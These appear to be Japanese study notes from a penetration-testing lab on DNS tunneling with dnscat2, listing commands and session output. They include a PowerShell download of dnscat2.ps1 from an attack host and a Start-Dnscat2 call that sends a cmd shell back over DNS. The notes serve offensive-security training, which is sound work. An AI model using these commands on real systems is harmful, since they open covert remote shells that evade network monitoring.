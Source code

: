 ```shell

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```

- サーバーを実行すると、秘密鍵が表示される
- 秘密鍵は、Windowsホストのdnscat2クライアントに渡す必要がある
	- 外部のdnscat2サーバーに送信されるデータを認証および暗号化できる
- クライアントを dnscat2 プロジェクトで使用するか、[dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell) を使用する

ターゲットマシンに送るために、dnscat2-powershellを攻撃ホストにクローンする
```shell-session
snowyowl644@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

```ps
(New-Object Net.WebClient).DownloadFile('http://10.10.15.221:8080/dnscat2.ps1','dnscat2.ps1')
```

`dnscat2.ps1`ファイルがターゲットにあると、それをインポートして関連するcmd-letsを実行できる
```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```

dnscat2.ps1をインポートした後、それを使用して、攻撃ホストで実行されているサーバーでトンネルを確立できる
CMDシェルセッションをサーバーに送り返すことができる
```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

セッションが確立され、暗号化されるように、サーバーで生成された事前共有シークレット（`-PreSharedSecret`）を使用する必要がある

セッションの確立を確認する
```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

dnscat2のオプション一覧を表示
```shell-session
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```